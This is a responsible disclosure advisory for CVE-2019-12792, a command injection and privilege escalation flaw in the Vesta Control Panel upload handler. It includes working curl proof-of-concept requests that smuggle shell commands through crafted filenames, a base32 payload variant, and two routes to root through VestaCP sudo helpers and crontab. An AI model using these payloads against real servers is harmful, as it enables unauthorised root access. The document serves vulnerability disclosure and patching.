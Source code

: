 ```yaml
---
title: '[CVE-2019-12792] Vesta Control Panel 0.9.8-24 — Privilege escalation in the upload handler'
description: Privilege escalation to root can be achieved by a regular user via the file upload handler exploiting an insufficient shell escaping mechanism.
tags: [CVE, Vesta Control Panel, Privilege escalation, upload]
advisory:
  discovered: 2019-03-15
  product: '[Vesta Control Panel](https://vestacp.com/)'
  versions:
    - 0.9.8-24
  cve: CVE-2019-12792
---
```


## Abstract

The insufficient shell escaping mechanism used during the invocation of the `exec` PHP function allows a registered user to run arbitrary system commands as the `admin` user, to whom VestaCP grants full access. A malicious registered user can thus escalate its privileges up to `root` by submitting a POST request to the web application.

[HestiaCP](https://www.hestiacp.com/) (an actively maintained fork of VestaCP) version 1.0.4 is also vulnerable but a fix has been promptly deployed in version 1.0.5.

## Details

The PHP script reachable at `/upload/UploadHandler.php` naively uses `'...'` to shell-escape the user input (instead of using `escapeshellarg`):

```php
exec (VESTA_CMD . "v-copy-fs-file ". USERNAME ." {$uploaded_file} '{$file_path}'", $output, $return_var);
```

The `$file_path` variable is controlled by the user as it corresponds to the name of the file being uploaded. By crafting a proper file name it is possible to escape the single quotes and *blindly* run additional commands as the `admin` user (the one that runs the web server in VestaCP).

For example, the following `curl` invocation uses the `sleep` command to prove the RCE success:

```console
$ PHPSESSID=... # grab it from an authenticated regular user session
$ time curl -sk -o /dev/null https://target.com:8083/upload/ \
    -b "PHPSESSID=$PHPSESSID" \
    -F "files=@/dev/null;filename=\"';sleep 5;#\""

real    0m5.097s
user    0m0.032s
sys     0m0.004s
```

Since the file name is filtered through the `basename` PHP function, the payload cannot contain `/`. Follows a more general solution that allows to execute arbitrary commands by using the Base32 encoding:

```console
$ COMMAND='[ -w ~admin/.bashrc ] && sleep 5'
$ PAYLOAD="$(echo "$COMMAND" | base32 -w0)"
$ time curl -sk -o /dev/null https://target.com:8083/upload/ \
    -b "PHPSESSID=$PHPSESSID" \
    -F "files=@/dev/null;filename=\"';echo $PAYLOAD | base32 -d | sh;#\""

real    0m5.087s
user    0m0.028s
sys     0m0.000s
```

The above also proves that is possible to write files in the `admin` home directory.

### From admin to root access

The `admin` user ultimately has full access to the target machine, yet VestaCP seems to make it hard for it to run superuser commands. For completeness, follows two possible ways to accomplish that.

#### Misusing the `v-start-service` command

The `service` system command provides a way to execute arbitrary executables and not only init scripts[^service]. Since `v-start-service` is a merely wrapper around `service`, it is possible to exploit it to run arbitrary executables as `root`.

Set the `COMMAND` variable as follows:

```console
$ COMMAND='
    echo "id >/usr/local/vesta/web/proof" >/tmp/x
    chmod +x /tmp/x
    sudo /usr/local/vesta/bin/v-start-service ../../tmp/x'
```

Run the remaining commands as above, then check that the proof file is created in the web server root:

```console
$ curl -k https://target.com:8083/proof
uid=0(root) gid=0(root) groups=0(root)
```

[^service]: See the [GTFOBins entry](https://gtfobins.github.io/gtfobins/service/).

#### Using cron

One simple way for the `admin` user to legitimately execute `root` commands is to replace the `/etc/crontab` file and restart the cron daemon using the `v-change-sys-service-config` VestaCP utility. Set the `COMMAND` variable as follows:

```console
$ COMMAND='
    echo "* * * * * root id >/usr/local/vesta/web/proof" >/tmp/x
    sudo /usr/local/vesta/bin/v-change-sys-service-config /tmp/x cron yes'
```

Run the remaining commands as above, then after one minute check that the proof file is created in the web server root:

```console
$ curl -k https://target.com:8083/proof
uid=0(root) gid=0(root) groups=0(root)
```

## Other instances of similar vulnerabilities

Several other instances of the same or similar problems have been found in the VestaCP source code. The following list[^git-tree] is a best-effort attempt to enumerate such instances, they are not tested and often are not exploitable in practice or not interesting since only the `admin` user can reach the code, but should nevertheless be fixed[^fixed]:

```php
// /usr/local/vesta/web/edit/mail/index.php:75
exec (VESTA_CMD."v-list-mail-account-autoreply ".$user." '".$v_domain."' '".$v_account."' json", $output, $return_var);

// /usr/local/vesta/web/edit/mail/index.php:231
exec (VESTA_CMD."v-delete-mail-account-alias ".$v_username." ".$v_domain." ".$v_account." '".$alias."'", $output, $return_var);

// /usr/local/vesta/web/edit/mail/index.php:257
exec (VESTA_CMD."v-delete-mail-account-forward ".$v_username." ".$v_domain." ".$v_account." '".$forward."'", $output, $return_var);

// /usr/local/vesta/web/edit/server/index.php:342
exec (VESTA_CMD."v-add-backup-host '". $v_backup_type ."' '". $v_backup_host ."' '". $v_backup_username ."' '". $v_backup_password ."' '". $v_backup_bpath ."'", $output, $return_var);

// /usr/local/vesta/web/edit/server/index.php:359
exec (VESTA_CMD."v-delete-backup-host '". $v_backup_type ."'", $output, $return_var);

// /usr/local/vesta/web/edit/server/index.php:367
exec (VESTA_CMD."v-add-backup-host '". $v_backup_type ."' '". $v_backup_host ."' '". $v_backup_username ."' '". $v_backup_password ."' '". $v_backup_bpath ."'", $output, $return_var);

// /usr/local/vesta/web/edit/server/index.php:389
exec (VESTA_CMD."v-add-backup-host '". $v_backup_type ."' '". $v_backup_host ."' '". $v_backup_username ."' '". $v_backup_password ."' '". $v_backup_bpath ."'", $output, $return_var);

// /usr/local/vesta/web/edit/server/index.php:406
exec (VESTA_CMD."v-delete-backup-host '". $v_backup_type ."'", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:39
exec (VESTA_CMD."v-list-web-domain-ssl ".$user." '".$v_domain."' json", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:142
exec (VESTA_CMD."v-list-dns-domain ".$v_username." '".$v_alias."' json", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:145
exec (VESTA_CMD."v-change-dns-domain-ip ".$v_username." '".$v_alias."' ".$v_ip, $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:176
exec (VESTA_CMD."v-delete-web-domain-alias ".$v_username." ".$v_domain." '".$alias."' 'no'", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:184
exec (VESTA_CMD."v-delete-dns-on-web-alias ".$v_username." ".$v_domain." '".$alias."' 'no'", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:317
exec (VESTA_CMD."v-list-web-domain-ssl ".$user." '".$v_domain."' json", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:370
exec (VESTA_CMD."v-add-letsencrypt-domain ".$user." ".$v_domain." '".$l_aliases."' 'no'", $output, $return_var);

// /usr/local/vesta/web/reset/mail/index.php:135
exec (VESTA_CMD."v-get-mail-account-value '".$v_user."' ".$v_domain." ".$v_account." 'md5'", $output, $return_var);

// /usr/local/vesta/web/reset/mail/index.php:154
exec (VESTA_CMD."v-change-mail-account-password '".$v_user."' ".$v_domain." ".$v_account." ".$v_new_password, $output, $return_var);
```

[^git-tree]: Locations refer to the Git commit [e1fb811caf73e5d8de49e3d2a0098a1afb0f647f](https://github.com/serghey-rodin/vesta/tree/e1fb811caf73e5d8de49e3d2a0098a1afb0f647f).

[^fixed]: Some of them (and others) are fixed in a subsequent [pull request](https://github.com/serghey-rodin/vesta/pull/1865/commits/0831a198b86a4760e83c0eaec78d84bab7098e6c).

## Timeline

2019-05-28
: Disclosed to the VestaCP team.

2019-06-10
: MITRE assigns [{{ page.advisory.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.advisory.cve }}) to this vulnerability.

2019-07-29
: Final warning via [GitHub issue](https://github.com/serghey-rodin/vesta/issues/1921) since emails have been ignored.

2019-07-30
: The VestaCP author asks one more week to fix the issue and publish a new release.

2019-08-07
: The VestaCP team [fixes](https://github.com/serghey-rodin/vesta/commit/b17b4b205df0c01dada54d9684cfaa94b924064a) the vulnerability.

2019-08-15
: The VestaCP team [releases](https://github.com/serghey-rodin/vesta/commit/868dd8b146e76ea3c83c26855ae2f60b22d989d2) version 0.9.8-25.
